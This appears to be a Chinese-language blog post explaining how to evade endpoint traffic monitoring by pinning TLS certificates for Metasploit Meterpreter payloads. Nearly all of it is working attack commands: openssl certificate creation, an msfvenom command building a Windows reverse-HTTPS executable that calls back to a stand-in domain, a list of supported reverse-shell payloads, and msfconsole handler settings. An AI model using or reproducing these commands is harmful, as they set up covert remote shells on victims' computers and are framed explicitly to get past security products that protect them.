 ```yaml
---
title: MSF TLS pinning
author: Admin
date: 2020-05-01 14:01:00 +0800
categories: [RAT, MSF]
tags: [流量加密, MSF, 免杀]
---
```


# 开宗明义

利用证书锁定过掉流量监控，例如赛某的端点防护。

rapid7官方将之称为```Paranoid Mode(偏执模式)```，相关wiki：[github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode)

# 创建证书

```shell script
openssl req -new -newkey rsa:4096 -days 36500 -nodes -x509 -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" -keyout cert.key -out cert.crt
cat cert.key  cert.crt > cert.pem
rm -f cert.key  cert.crt
```
其中```www.example.com```为回连域名或IP

# 生成payload

```shell script
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=www.example.com LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./cert.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedPSH -f exe -o ./launch-paranoid.exe
```

支持的payload:

|  Staged (payload.bat\|ps1\|txt\|exe)   |
|  :----  |
| windows/meterpreter/reverse_winhttps  |
| windows/meterpreter/reverse_https  |
| windows/x64/meterpreter/reverse_https  |

|  Stageless (binary.exe)   |
|  :----  |
| windows/meterpreter_reverse_https  |
| windows/x64/meterpreter_reverse_https  |


# 设置监听

```shell script
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_winhttps
set LHOST www.example.com
set LPORT 443
set HandlerSSLCert ./cert.pem
set IgnoreUnknownPayloads true
set StagerVerifySSLCert true
set exitonsession false
run -j -z
```